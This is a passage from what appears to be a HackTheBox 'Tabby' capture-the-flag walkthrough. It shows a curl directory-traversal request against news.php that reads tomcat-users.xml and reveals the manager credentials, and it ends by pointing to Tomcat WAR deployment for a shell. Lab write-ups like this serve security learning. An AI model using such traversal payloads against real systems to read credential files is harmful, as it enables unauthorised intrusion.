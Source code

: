 I tried to guess some default credential for manager page, but I can't get in. But there is a directory traversal vulnerability in port 80, let's use it to find the credential for manager page.

![](images/5.png)

## Foothold

### Path Travel to Tomcat Creds

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/tabby)

I search location of file `tomcat-users.xml` and this is helpful [File list of package tomcat9](https://packages.ubuntu.com/focal/all/tomcat9/filelist).

![](images/4.png)

Using directory traversal vulberability at port 80 to read file `tomcat-users.xml`. I have credential `tomcat:$3cureP4s5w0rd123!` with role `admin-gui` and `manager-script`.

```
┌──(Hades㉿10.10.14.5)-[0.5:27.1]~/scripting
└─$ curl 'http://megahosting.htb/news.php?file=../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml'
<snip>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

### Manager script deploy

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/tabby)

Follow role of the knowed credential, I search for deploy shell with manager script and I found [Deploy\_A\_New\_Application\_Archive\_(WAR)\_Remotely](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html\#Deploy\_A\_New\_Application\_Archive\_(WAR)\_Remotely)
